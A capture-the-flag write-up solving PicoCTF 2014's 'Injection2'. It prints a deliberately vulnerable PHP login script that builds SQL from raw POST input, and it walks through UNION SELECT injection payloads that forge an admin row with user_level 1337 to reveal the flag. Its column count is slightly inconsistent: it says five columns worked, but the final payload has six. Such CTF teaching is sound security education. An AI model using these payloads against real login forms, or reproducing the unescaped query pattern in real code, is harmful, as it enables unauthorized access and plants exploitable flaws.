 ###Injection2

This challenges comes from PicoCTF 2014. We are to perform an SQL injection on the web application we are provided with. The source code for the PHP file making the query is as follows:
```
<?php
include "config.php";
$con = mysqli_connect("localhost", "sql2", "sql2", "sql2");
$username = $_POST["username"];
$password = $_POST["password"];
$debug = $_POST["debug"];
$query = "SELECT * FROM users WHERE username='$username'";
$result = mysqli_query($con, $query);

if (intval($debug)) {
  echo "<pre>";
  echo "username: ", htmlspecialchars($username), "\n";
  echo "password: ", htmlspecialchars($password), "\n";
  echo "SQL query: ", htmlspecialchars($query), "\n";
  if (mysqli_errno($con) !== 0) {
    echo "SQL error: ", htmlspecialchars(mysqli_error($con)), "\n";
  }
  echo "</pre>";
}

$logged_in = false;
if (mysqli_num_rows($result) === 1) {
  $row = mysqli_fetch_array($result);
  if ($row["password"] === $password) {
    $logged_in = true;
    echo "<h1>Logged in!</h1>";
    echo "<pre>User level: ", $row["user_level"],  "</pre>";
    if ($row["user_level"] >= 1337) {
      echo "<p>Your flag is: $FLAG</p>";
    } else {
      echo "<p>Only user levels 1337 or above can see the flag.</p>";
    }
  }
}

if (!$logged_in) {
  echo "<h1>Login failed.</h1>";
}
?>
```
From the above it is clear that to get the flag we need to bypass three conditions:

1. # of rows returned from the query === 1 (triple equal sign checks for identical value as well as datatype)
2. our "password" variable supplied via POST method must match the "password" field of the result
3. the "user_level" field must be greater or equal to 1337

Without the possiblity to register any user to the database, it becomes certain that we somehow have to "fake" the query result. Since there is no sanitization or escaping of user input,
we can achieve this by appending ```UNION SELECT``` query.

Basically, a ```UNION``` clause merges the result of multiple ```SELECT``` statements. For it to work, two conditions must be satisfied:

1. The # of columns in the SELECT statements must match (UNION is based on the # of columns in the FIRST query)
2. The data types of the corresponding columns in the SELECT statements must match (or must be convertable to match)

Note on the difference between ```UNION SELECT``` and ```UNION ALL SELECT```:

```UNION SELECT``` effectively removes duplicate results i.e. perform DISTINCT, while ```UNION ALL``` does not.

Now, there is also a convenient clause for SQL query, that is, ```AS```. Using this, we can "fake" entries in the table. On top of this, we want to nullify the orignal query, and this can be achieved doing the opposite
of what we normally do - add the condition ```AND 1=0``` which always returns false, instead of ```OR 1=1``` which always returns true.

The original query is 
```$query = "SELECT * FROM users WHERE username='$username'"```

and we can attach the following string:

```' AND 1=0 UNION SELECT 'admin' AS username, 'password' AS password, 1337 AS user_level #``` 

(```#``` can be replaced by ```-- ```. Note the a space that follows!).

With the debug mode turned on (turn on by editing the ```hidden``` input field in HTML), it gives the following error message:
```
SQL error: The used SELECT statements have a different number of columns
```
Different number of columns! The only way we can figure out is just by keep adding columns one by one till they match (just append ```,1``` for the equivalence of adding a column). So do
```
' AND 1=0 UNION SELECT 'admin' AS username, 'password' AS password, 1337 AS user_level, 1 #
```
When we have 5 columns in the second ```SELECT``` statement, it gives out no more error: however, we still don't see the flag. This means, that the data types of the corresponding columns do not match,
so try different orderings. 

In the end, put the following query into the username input field, 

```
' AND 1=0 UNION SELECT 'admin' AS username, 1, 'password' AS password, 1, 1337 AS user_level, 1 #
```
with "password" in the password input field. This prints 
```Your flag is: flag_nJZAKGWYt7YfzmTsCV```

